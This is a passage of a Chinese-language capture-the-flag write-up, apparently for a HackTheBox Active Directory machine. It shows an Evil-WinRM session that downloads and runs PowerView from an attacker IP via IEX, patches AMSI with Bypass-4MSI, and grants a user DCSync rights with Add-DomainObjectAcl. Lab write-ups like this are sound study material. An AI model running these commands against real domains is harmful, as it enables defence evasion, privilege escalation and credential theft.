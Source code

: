 导入 `powerview.ps1`

```powershell
*Evil-WinRM* PS C:\Users\zf1yolo\Documents> powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5/PowerView.ps1')"
*Evil-WinRM* PS C:\Users\zf1yolo\Documents> menu


   ,.   (   .      )               "            ,.   (   .      )       .   
  ("  (  )  )'     ,'             (`     '`    ("     )  )'     ,'   .  ,)  
.; )  ' (( (" )    ;(,      .     ;)  "  )"  .; )  ' (( (" )   );(,   )((   
_".,_,.__).,) (.._( ._),     )  , (._..( '.._"._, . '._)_(..,_(_".) _( _')  
\_   _____/__  _|__|  |    ((  (  /  \    /  \__| ____\______   \  /     \  
 |    __)_\  \/ /  |  |    ;_)_') \   \/\/   /  |/    \|       _/ /  \ /  \ 
 |        \\   /|  |  |__ /_____/  \        /|  |   |  \    |   \/    Y    \
/_______  / \_/ |__|____/           \__/\  / |__|___|  /____|_  /\____|__  /
        \/                               \/          \/       \/         \/

       By: CyberVaca, OscarAkaElvis, Jarilaos, Arale61 @Hackplayers

[+] Dll-Loader 
[+] Donut-Loader 
[+] Invoke-Binary
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
[+] menu
[+] exit

*Evil-WinRM* PS C:\Users\zf1yolo\Documents> Bypass-4MSI
                                        
Info: Patching 4MSI, please be patient... 
                                        
[+] Success! 
```



```
$pass = convertto-securestring 'zf1yolo' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('htb\zf1yolo', $pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity zf1yolo -Rights DCSync
```

不会就 看 powerview.ps1 的源码方法 照着写

这里报错了，换种方法导入 ps1

```
wget -Uri http://10.10.16.5/PowerView.ps1 -OutFile PowerView.ps1
. .\PowerView.ps1
```

